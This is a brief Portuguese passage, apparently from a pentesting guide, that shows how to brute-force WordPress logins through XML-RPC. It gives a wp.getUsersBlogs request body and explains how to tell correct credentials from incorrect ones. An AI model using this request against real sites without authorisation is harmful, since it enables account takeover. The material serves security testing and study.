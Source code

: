 <figure><img src="../../../.gitbook/assets/img.jpg" alt=""><figcaption><p>Figura: Requisição XMLRPC</p></figcaption></figure>



**Brute Force nas credenciais**



Para perfomar este ataque, _wp.getUserBlogs, wp.getCategories ou metaWeblog.getUsersBlogs_ são alguns métodos usados, você deve inserir:



```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```



Dentro do valor "_param_" você insere as credenciais para testar, caso a resposta não seja "_Incorrect username or password_" dentro de um código 200, você conseguiu as credenciais corretas.



<figure><img src="../../../.gitbook/assets/img2.png" alt=""><figcaption><p>Figura: Credencial incorreta</p></figcaption></figure>
